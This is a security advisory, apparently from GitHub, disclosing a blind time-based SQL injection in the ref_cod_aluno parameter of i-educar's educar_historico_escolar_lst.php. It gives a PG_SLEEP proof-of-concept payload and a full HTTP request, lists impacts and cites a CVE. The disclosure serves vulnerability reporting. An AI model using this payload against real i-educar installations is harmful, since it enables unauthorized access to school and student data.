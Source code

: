 # SQL Injection (Blind Time-Based) Vulnerability in ref_cod_aluno Parameter on educar_historico_escolar_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_historico_escolar_lst.php` endpoint of the _i-educar_ application, specifically in the `ref_cod_aluno` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_historico_escolar_lst.php`  
**Parameter:** `ref_cod_aluno`

The application fails to properly validate and sanitize user input in the `ref_cod_aluno` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This may allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

 `AND 6986=(SELECT 6986 FROM PG_SLEEP(5))`

This payload introduces a **5-second time delay** in the server response, confirming that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**

```
GET /intranet/educar_historico_escolar_lst.php?ref_cod_aluno=206+AND+6986=(SELECT+6986+FROM+PG_SLEEP(5)) HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1572" height="707" alt="Pasted image 20250818003041" src="https://github.com/user-attachments/assets/ed0f7afd-7db3-4340-b823-5ffb62f27d76" />


The delayed response demonstrates that the injected SQL command was successfully executed by the backend database.

<img width="1566" height="711" alt="Pasted image 20250818003142" src="https://github.com/user-attachments/assets/fea30842-262d-497b-8302-75f0ce8694fe" />


---

## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on database configuration and available functions
    

This vulnerability could lead to full compromise of the database and exposure of sensitive application and user data.


## References

[CVE-2025-10012](https://www.cve.org/CVERecord?id=CVE-2025-10012)

[VulnDB-322737](https://vuldb.com/?id.322737)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)